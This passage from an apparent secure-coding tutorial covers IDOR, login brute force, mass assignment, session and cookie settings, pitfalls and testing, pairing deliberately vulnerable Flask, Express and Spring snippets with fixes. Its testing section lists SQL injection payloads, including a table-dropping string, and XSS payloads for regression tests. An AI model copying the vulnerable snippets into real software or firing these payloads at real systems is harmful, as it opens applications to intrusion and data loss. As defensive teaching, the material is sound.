    @AuthenticationPrincipal UserDetails user
) {
    return invoiceRepository.findByIdAndUserId(id, user.getId()) // ✅ Both conditions
        .map(ResponseEntity::ok)
        .orElse(ResponseEntity.notFound().build());
}
```

### Non-Numeric IDs: UUIDs as an Extra Layer

Replacing auto-increment integer IDs with UUIDs eliminates enumeration — but is **not a substitute** for authorization checks. Think of it as defense-in-depth.

```
Sequential (enumerable):  /invoices/45  → attacker tries 44, 46, 47...
UUID (non-enumerable):   /invoices/550e8400-e29b-41d4-a716-446655440000
```

| DB / ORM | UUID Support |
|---|---|
| PostgreSQL | Native `UUID` type |
| MySQL 8+ | `UUID()` function / `CHAR(36)` |
| SQLite | Store as `TEXT` |
| Sequelize | `DataTypes.UUID` |
| SQLAlchemy | `sqlalchemy.dialects.postgresql.UUID` |
| Hibernate | `@GeneratedValue(strategy = GenerationType.AUTO)` with UUID |

### 📦 Real-World Use Cases

| Scenario | IDOR Risk | Fix |
|---|---|---|
| Invoice / order viewing | Financial data exposure | Scope query to `user_id` |
| Support ticket system | Read other users' private tickets | User-scoped query + UUID IDs |
| Medical records portal | HIPAA violation | Strict authorization + audit logging |
| Document download | Corporate espionage | Auth check + expiring signed URLs |
| Admin panel user edit | One user edits another's profile | Role-based authorization |

---

## 8. Brute Force via Login Forms

### What Is It?

Without rate limiting, a login form accepts **unlimited** password attempts per second. Attackers exploit this with two techniques:

- **Brute Force:** Systematically try every possible password combination
- **Credential Stuffing:** Replay leaked username/password pairs from other breached services

### Attack Volume in Perspective



### Attack Flow Without Rate Limiting



### ❌ Vulnerable Code (Multiple Languages)

```python
# Python (Flask) — No rate limiting at all (VULNERABLE)
@app.route('/login', methods=['POST'])
def login():
    user = User.query.filter_by(email=request.form['email']).first()
    if user and check_password_hash(user.password, request.form['password']):
        login_user(user)
        return redirect('/dashboard')
    return redirect('/login?error=1')  # 🚨 Bot can try infinitely
```

```javascript
// Node.js (Express) — Same problem (VULNERABLE)
app.post('/login', async (req, res) => {
    const user = await User.findOne({ where: { email: req.body.email } });
    if (user && await bcrypt.compare(req.body.password, user.passwordHash)) {
        req.session.userId = user.id;
        return res.redirect('/dashboard');
    }
    res.redirect('/login?error=1'); // 🚨 No limit on retries
});
```

### ✅ Fixed Code — Layered Defense

**Step 1: Add Rate Limiting (Language-Agnostic Approach)**

Rate limiting can be implemented at multiple levels. The most reliable approach uses a shared store (like Redis) so limits persist across server restarts and work in multi-server deployments.

```python
# Python (Flask) using flask-limiter + Redis
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

limiter = Limiter(
    app,
    key_func=get_remote_address,
    storage_uri="redis://localhost:6379"
)

@app.route('/login', methods=['POST'])
@limiter.limit("5 per minute")   # ✅ 5 attempts per IP per minute
@limiter.limit("20 per hour")    # ✅ 20 attempts per IP per hour
def login():
    ...
```

```javascript
// Node.js using express-rate-limit + Redis store
const rateLimit  = require('express-rate-limit');
const RedisStore = require('rate-limit-redis');

const loginLimiter = rateLimit({
    windowMs:         60 * 1000,   // 60 seconds
    max:              5,            // ✅ Max 5 attempts per window
    standardHeaders:  true,
    legacyHeaders:    false,
    store:            new RedisStore({ client: redisClient }),
    keyGenerator:     (req) => `${req.ip}:${req.body.email}`, // Per IP + email
    handler:          (req, res) => {
        res.status(429).json({
            error: 'Too many login attempts. Please try again later.'
        });
    }
});

app.post('/login', loginLimiter, async (req, res) => { ... });
```

> 💡 **Go users:** use `golang.org/x/time/rate` or a middleware library — or offload to an API gateway like Nginx / Traefik for rate limiting.

**Step 2: Progressive Delay (Exponential Backoff)**

```python
import time

# Track failed attempts in Redis
def login():
    key      = f"login_attempts:{request.remote_addr}"
    attempts = int(redis_client.get(key) or 0)

    if attempts >= 10:
        return jsonify({'error': 'Account temporarily locked'}), 429

    user = authenticate(request.form['email'], request.form['password'])
    if not user:
        redis_client.incr(key)
        redis_client.expire(key, 3600)     # Reset after 1 hour
        delay = min(2 ** attempts, 30)     # Exponential: 1s, 2s, 4s, ... max 30s
        time.sleep(delay)
        return jsonify({'error': 'Invalid credentials'}), 401

    redis_client.delete(key)               # ✅ Clear on success
    session['user_id'] = user.id
    return redirect('/dashboard')
```

**Step 3: Defend Against Timing Attacks**

Always hash the password even when the user doesn't exist — otherwise response time leaks whether the email is valid:

```python
# 🚨 Leaks email existence via timing
user = User.query.filter_by(email=email).first()
if user and check_password_hash(user.password, password):
    ...

# ✅ Always run hash comparison — constant time response
DUMMY_HASH = generate_password_hash("dummy_value")

user = User.query.filter_by(email=email).first()
password_to_check = user.password if user else DUMMY_HASH
if user and check_password_hash(password_to_check, password):
    ...
```

### Defense Layers Visualized



### Rate Limiting at Different Levels

| Level | Tool / Approach | Best For |
|---|---|---|
| Application code | `flask-limiter`, `express-rate-limit`, Rack::Attack | Per-endpoint fine control |
| Reverse proxy | Nginx `limit_req`, Apache mod_ratelimit | All apps behind the proxy |
| API Gateway | AWS API Gateway, Kong, Cloudflare | Microservices, public APIs |
| CDN | Cloudflare Rate Limiting, Fastly | Global distributed protection |

### 📦 Real-World Use Cases

| Scenario | Without Rate Limiting | With Rate Limiting |
|---|---|---|
| SaaS login | Bot cracks user accounts overnight | Blocked after 5 attempts |
| Admin panel | Attacker enumerates valid emails via timing | Constant-time response + limit |
| REST API auth | Millions of requests per hour | 429 returned after threshold |
| Password reset endpoint | Reset token enumeration | 3 requests per 15 minutes |
| OTP verification | 6-digit code cracked in minutes | Max 3 attempts, then lockout |

---

## 9. Mass Assignment via API Endpoints

### What Is It?

Mass Assignment occurs when you blindly pass a user-supplied data payload directly into a database write operation — without specifying which fields are actually allowed to be modified. If your database has sensitive columns (`is_admin`, `role`, `account_balance`), an attacker can add those fields to their request and silently modify them.

### The Attack Scenario



### ❌ Vulnerable Code (Multiple Languages)

```python
# Python (Flask) — Passes entire JSON body to update (VULNERABLE)
@app.route('/api/users/<int:user_id>', methods=['PATCH'])
@login_required
def update_user(user_id):
    user = User.query.get_or_404(user_id)
    user.update(**request.json)   # 🚨 Attacker controls all fields!
    db.session.commit()
    return jsonify(user.to_dict())
```

```javascript
// Node.js — Direct spread of req.body into update (VULNERABLE)
app.patch('/api/users/:id', requireAuth, async (req, res) => {
    const user = await User.findByPk(req.params.id);
    await user.update(req.body);   // 🚨 Every key in req.body goes to the DB
    res.json(user);
});
```

```java
// Java (Spring) — Binding entire request body to entity (VULNERABLE)
@PatchMapping("/api/users/{id}")
public User updateUser(@PathVariable Long id, @RequestBody User userData) {
    User user = userRepository.findById(id).orElseThrow();
    // 🚨 Copies ALL fields from request — including isAdmin!
    BeanUtils.copyProperties(userData, user);
    return userRepository.save(user);
}
```

### ✅ Fixed Code — Explicit Field Whitelisting

```python
# Python (Flask) — Explicit whitelist of allowed fields (FIXED)
@app.route('/api/users/<int:user_id>', methods=['PATCH'])
@login_required
def update_user(user_id):
    user = User.query.get_or_404(user_id)

    # ✅ Only allow these specific fields to be updated
    allowed_fields = {'name', 'bio', 'timezone'}
    updates = {
        key: value
        for key, value in request.json.items()
        if key in allowed_fields
    }

    if not updates:
        return jsonify({'error': 'No valid fields provided'}), 400

    for key, value in updates.items():
        setattr(user, key, value)

    db.session.commit()
    return jsonify(user.to_safe_dict())   # ✅ Filtered output too
```

```javascript
// Node.js — Destructure only allowed fields (FIXED)
app.patch('/api/users/:id', requireAuth, async (req, res) => {
    const user = await User.findByPk(req.params.id);
    if (!user || user.id !== req.user.id) return res.sendStatus(403);

    // ✅ Destructure only the fields you allow
    const { name, bio, timezone } = req.body;

    await user.update({ name, bio, timezone }); // Undefined fields are ignored
    res.json(user.toSafeJSON()); // ✅ Remove sensitive fields from response
});
```

```java
// Java (Spring) — Use a dedicated DTO, not the entity directly (FIXED)
public class UserUpdateDTO {
    private String name;      // ✅ Allowed
    private String bio;       // ✅ Allowed
    private String timezone;  // ✅ Allowed
    // isAdmin is NOT here — attacker cannot set it
}

@PatchMapping("/api/users/{id}")
public ResponseEntity<UserResponse> updateUser(
    @PathVariable Long id,
    @Valid @RequestBody UserUpdateDTO dto,
    @AuthenticationPrincipal UserDetails principal
) {
    User user = userRepository.findById(id)
        .filter(u -> u.getEmail().equals(principal.getUsername()))
        .orElseThrow(() -> new ResponseStatusException(HttpStatus.FORBIDDEN));

    user.setName(dto.getName());     // ✅ Only safe fields set explicitly
    user.setBio(dto.getBio());
    return ResponseEntity.ok(new UserResponse(userRepository.save(user)));
}
```

### Mass Assignment Risk Map



### Response Filtering: Prevent Information Leakage

Even after fixing writes, make sure sensitive fields are not returned in API responses:

```python
# Python — Define what to expose in API responses
class User(db.Model):
    ...
    def to_public_dict(self):
        return {
            'id':       self.id,
            'name':     self.name,
            'email':    self.email,
            # ✅ is_admin, password_hash, stripe_id — never returned
        }
```

```javascript
// Node.js — Remove sensitive fields before sending
user.toJSON = function () {
    const values = { ...this.get() };
    delete values.passwordHash;
    delete values.isAdmin;
    delete values.stripeCustomerId;
    return values;
};
```

### 📦 Real-World Use Cases

| Scenario | Sensitive Column at Risk | Fix |
|---|---|---|
| Profile update API | `is_admin`, `role` | DTO / whitelist |
| Account settings | `email_verified_at` | Never accept from client |
| Billing update | `plan_id`, `balance` | Separate admin-only endpoints |
| Multi-tenant SaaS | `tenant_id` | Set from auth context only |
| User registration | `created_at`, `id` | Never accept from client |

---

## 10. Session & Cookie Misconfiguration

### What Is It?

Sessions are how web applications remember authenticated users between requests. Session data is typically stored server-side, and a reference token (the session cookie) is sent to the browser. If this cookie is misconfigured, attackers can steal it, forge it, or exploit it in cross-site attacks.

### Session Attack Landscape



### The Three Essential Cookie Flags

| Flag | What It Does | What Happens Without It |
|---|---|---|
| `Secure` | Cookie only sent over HTTPS | Cookie transmitted in plain text over HTTP — sniffable |
| `HttpOnly` | JavaScript cannot access the cookie | XSS can read `document.cookie` and steal session |
| `SameSite=Lax` or `Strict` | Cookie not sent on cross-origin requests | CSRF attacks can forge authenticated requests |

### Setting Secure Cookie Flags (Multiple Languages)

```python
# Python (Flask) — in app config
app.config.update(
    SESSION_COOKIE_SECURE   = True,     # ✅ HTTPS only
    SESSION_COOKIE_HTTPONLY = True,     # ✅ No JS access
    SESSION_COOKIE_SAMESITE = 'Lax',   # ✅ CSRF protection
    SESSION_COOKIE_NAME     = '__Host-session',  # ✅ Extra: __Host- prefix enforces Secure
    PERMANENT_SESSION_LIFETIME = timedelta(hours=1)
)
```

```javascript
// Node.js (Express + express-session)
app.use(session({
    secret:            process.env.SESSION_SECRET,
    resave:            false,
    saveUninitialized: false,
    cookie: {
        secure:   true,     // ✅ HTTPS only
        httpOnly: true,     // ✅ No JS access
        sameSite: 'lax',   // ✅ CSRF protection
        maxAge:   3600000  // ✅ 1 hour expiry
    },
    store: new RedisStore({ client: redisClient }) // ✅ Redis for production
}));
```

```java
// Java (Spring Boot) — application.properties
server.servlet.session.cookie.secure=true
server.servlet.session.cookie.http-only=true
server.servlet.session.cookie.same-site=lax
server.servlet.session.timeout=60m
```

```go
// Go (gorilla/sessions)
store := sessions.NewCookieStore([]byte(os.Getenv("SESSION_KEY")))
store.Options = &sessions.Options{
    Path:     "/",
    MaxAge:   3600,
    HttpOnly: true,   // ✅ No JS access
    Secure:   true,   // ✅ HTTPS only
    SameSite: http.SameSiteLaxMode, // ✅ CSRF protection
}
```

### Session Regeneration: Preventing Fixation

Always issue a **new session ID** after a user logs in. If you reuse the pre-login session ID, an attacker who obtained it (via a link they sent the victim) can wait for the victim to authenticate, then use the same session themselves.

```python
# Python (Flask-Login handles this, but explicitly):
@app.route('/login', methods=['POST'])
def login():
    user = verify_credentials(request.form)
    if user:
        login_user(user)
        # ✅ Regenerate session to prevent fixation
        session.clear()
        session['user_id'] = user.id
        session.modified = True
        return redirect('/dashboard')
```

```javascript
// Node.js — regenerate session after login
app.post('/login', loginLimiter, async (req, res) => {
    const user = await verifyCredentials(req.body.email, req.body.password);
    if (!user) return res.status(401).json({ error: 'Invalid credentials' });

    // ✅ Destroy old session, create a fresh one
    req.session.regenerate((err) => {
        if (err) return res.sendStatus(500);
        req.session.userId = user.id;
        res.redirect('/dashboard');
    });
});
```

### Complete Login-to-Logout Security Flow



### CSRF Protection: SameSite + CSRF Tokens

`SameSite=Lax` catches most CSRF cases, but for sensitive state-changing operations (money transfers, account deletion), pair it with an explicit CSRF token:

```html
<!-- Include a CSRF token in every form -->
<form method="POST" action="/transfer">
    <input type="hidden" name="csrf_token" value="{{ generate_csrf_token() }}">
    ...
</form>
```

```python
# Python — Validate CSRF token on every POST/PUT/DELETE
from flask_wtf.csrf import CSRFProtect
csrf = CSRFProtect(app)  # Automatically validates token on all state-changing requests
```

```javascript
// Node.js — csurf middleware (or modern alternative: csrf-csrf)
const { doubleCsrf } = require('csrf-csrf');
const { generateToken, doubleCsrfProtection } = doubleCsrf({ getSecret: () => process.env.CSRF_SECRET });

app.use(doubleCsrfProtection); // ✅ Validates CSRF on mutating requests
```

### 📦 Real-World Use Cases

| Scenario | Session Risk | Fix |
|---|---|---|
| Banking app | Session theft over HTTP | `Secure` flag + enforce HTTPS |
| Healthcare portal | XSS-based session theft | `HttpOnly` flag |
| E-commerce checkout | CSRF cart manipulation | `SameSite=Lax` + CSRF token |
| Multi-server app | Session lost on server restart | Redis/database session store |
| Public computer usage | Session persists after close | Short `maxAge` + `expire_on_close` |

---

## 11. Common Pitfalls & Troubleshooting

### Frequent Pitfalls by Vulnerability Class

| # | Pitfall | Why It Fails | Correct Approach |
|---|---|---|---|
| 1 | Escaping input instead of parameterizing | Sanitization functions miss encoding tricks (hex, Unicode, comments) | Parameterized queries — always |
| 2 | Trusting `Content-Type` header on uploads | Header is attacker-controlled | Validate magic bytes server-side |
| 3 | Blacklisting file extensions (.exe, .php) | Endless bypasses: `.phtml`, `.phar`, `.PHP`, null bytes | Whitelist allowed types only |
| 4 | Sanitizing on output for stored data | One forgotten template = XSS | Sanitize on input (rich text) AND escape on output |
| 5 | Authorization only at page level | API/JSON endpoints often forgotten | Authorize every route, including APIs |
| 6 | Rate limiting by IP only | Office/VPN NAT blocks real users; bots rotate IPs | Key on IP + account + email combination |
| 7 | Generic error messages with different timing | Timing leaks account existence | Constant-time comparisons + dummy hashes |
| 8 | Whitelisting fields on write only | API responses leak `isAdmin`, `passwordHash` | Filter both input and output |
| 9 | Setting cookies without `Secure` in dev, forgetting prod parity | Cookie sent over HTTP after deployment | Enforce flags in config used by all environments |
| 10 | Client-side validation only | Trivially bypassed with curl/Postman | Re-validate everything server-side |

### Troubleshooting Guide

**Symptom: Valid image uploads are rejected after adding magic-byte checks**
- *Cause:* Header sniffing reads too few bytes, or WebP/HEIC variants not in whitelist
- *Fix:* Read at least 512 bytes; explicitly add accepted formats; log detected type on rejection

**Symptom: Whole office blocked by login rate limiter**
- *Cause:* All employees share one NAT/VPN egress IP
- *Fix:* Key the limiter on `IP + username/email`, add progressive backoff per account, and allow-list trusted office IPs where appropriate

**Symptom: Escaped output shows literal `&amp;` on the page**
- *Cause:* Double escaping — data sanitized on input AND escaped on output
- *Fix:* Choose one convention: store raw (validate), escape on output; or sanitize on input, store clean, still escape on output — never both for the same field

**Symptom: OAuth/social login broke after setting `SameSite=Lax`**
- *Cause:* Cross-site POST callbacks no longer carry cookies
- *Fix:* Use `SameSite=None; Secure` only for the specific OAuth state cookie, keep `Lax` for the session cookie

**Symptom: Prepared statements hurt performance under load**
- *Cause:* New statement prepared per request; connection pooling misconfigured
- *Fix:* Enable driver-level statement caching and persistent pooled connections (see Section 15)

**Symptom: CSRF validation fails for API clients (mobile app)**
- *Cause:* Token-based CSRF suits browser forms, not token-authenticated APIs
- *Fix:* Skip CSRF for Bearer-token APIs (tokens are not auto-sent by browsers); keep CSRF for cookie-session endpoints

---

## 12. Testing Strategies

### Layered Testing Approach



### Payload Regression Tests (SQLi & XSS)

```python
# pytest — assert injections are treated as literal data
import pytest

SQLI_PAYLOADS = ["' OR '1'='1", "'; DROP TABLE users; --", "' UNION SELECT 1,2,3 --"]
XSS_PAYLOADS  = ["<script>alert(1)</script>", "", "javascript:alert(1)"]

def test_search_rejects_nothing_but_returns_no_rows(client):
    for p in SQLI_PAYLOADS:
        resp = client.get(f"/search?q={p}")
        assert resp.status_code == 200          # no crash / no 500
        assert b"<script" not in resp.data      # payload never reflected raw

def test_comment_is_escaped(client, logged_in_user):
    for p in XSS_PAYLOADS:
        client.post("/comments", data={"body": p})
        page = client.get("/blog/post/1").data
        assert b"<script>alert(1)</script>" not in page
```

### Authorization Matrix Tests (IDOR & Mass Assignment)

Test *every* resource endpoint with a matrix: owner, authenticated non-owner, admin, anonymous — assert 403/404 for anyone except the owner:

```python
